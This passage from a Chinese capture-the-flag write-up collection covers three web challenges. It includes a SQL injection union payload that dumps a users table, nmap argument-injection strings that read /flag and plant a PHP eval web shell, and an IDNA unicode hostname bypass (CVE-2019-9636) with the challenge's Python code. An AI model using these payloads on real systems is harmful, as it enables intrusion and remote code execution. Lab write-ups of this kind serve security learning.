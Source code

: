 查看另一列

```
-1'/**/union/**/select/**/1,(select/**/group_concat(`3`)/**/from/**/(select/**/1,2,3/**/union/**/select*from/**/users)a),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22&&'1'='1
```

# 0x33.[网鼎杯 2020 朱雀组]Nmap

使用的是nmap，提示在/flag中，所以可以写入到文件：

`' -iL /flag -oN flag.txt '`

解法二：

`' <?php @eval($_POST["hack"]);?> -oG hack.php '`

回显了hacker

`' <?= @eval($_POST["hack"]);?> -oG hack.phtml '`

可以访问，蚁剑就OK。

# 0x34.[SUCTF 2019]Pythonginx

>   知识点：
>
>   1.   blackhat2019的一个议题：https://i.blackhat.com/USA-19/Thursday/us-19-Birch-HostSplit-Exploitable-Antipatterns-In-Unicode-Normalization.pdf
>
>        大致就是说假如http://evil.c℀.com经过处理会变成http://evil.ca/c.com
>
>   2.   在unicode中字符℀(U+2100)，当IDNA处理此字符时，会将℀变成a/c，因此当你访问此url时，dns服务器会自动将url重定向到另一个网站。如果服务器引用前端url时，只对域名做了限制，那么通过这种方法，我们就可以轻松绕过服务器对域名的限制了。
>
>   3.   **CVE-2019-9636：urlsplit不处理NFKC标准化**
>
>   4.   Nginx重要文件的位置

```
nginx重要文件位置
配置文件存放目录：/etc/nginx
主配置文件：/etc/nginx/conf/nginx.conf
管理脚本：/usr/lib64/systemd/system/nginx.service
模块：/usr/lisb64/nginx/modules
应用程序：/usr/sbin/nginx
程序默认存放位置：/usr/share/nginx/html
日志默认存放位置：/var/log/nginx
配置文件目录为：/usr/local/nginx/conf/nginx.conf
```

```python
        @app.route('/getUrl', methods=['GET', 'POST'])
def getUrl():
    url = request.args.get("url")
    host = parse.urlparse(url).hostname
    if host == 'suctf.cc':
        return "我扌 your problem? 111"
    parts = list(urlsplit(url))
    host = parts[1]
    if host == 'suctf.cc':
        return "我扌 your problem? 222 " + host
    newhost = []
    for h in host.split('.'):
        newhost.append(h.encode('idna').decode('utf-8'))
    parts[1] = '.'.join(newhost)
    #去掉 url 中的空格
```